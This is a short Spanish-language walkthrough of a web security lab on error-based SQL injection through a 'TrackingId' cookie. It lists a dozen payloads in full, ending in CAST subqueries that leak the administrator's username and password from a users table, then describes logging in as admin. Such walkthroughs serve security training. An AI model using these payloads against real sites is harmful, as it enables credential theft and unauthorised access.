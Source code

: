 
Analizamos paso a paso cómo:

- Provocar un error de sintaxis añadiendo un carácter de comilla.
- Comentar el resto de la consulta para validarla sintácticamente.
- Utilizar subconsultas SQL combinadas con ‘**CAST**‘ para extraer información.
- Ajustar la consulta para obtener solo una fila y evitar errores de tipo.
- Filtrar primero el nombre de usuario del administrador y después su contraseña.

Finalmente, utilizamos la información exfiltrada para iniciar sesión como administrador, completando así con éxito el laboratorio

-----

Nos aprovecharemos del error que nos muestra la inyeccion, ya que al provocar el error nos puede arrojar informacion referente a la consulta dada

La cookie de session "TrackingId"  es vulnerable a SQLI

* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' order by 1-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' union select NULL-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' union select 'test'-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' union select "test"-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' or 1=1-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' or 'a'='a'-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' or 1=1-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' or 1=cast((select 1) as INT)-- - (como si hicieramos el 1=1)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' or 1=cast((select username from users) as INT)-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' or 1=cast((select username from users limit 1) as INT)-- - (se lista el primer usuario)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' or 1=cast((select password from users limit 1) as INT)-- - (se lista la primer password)



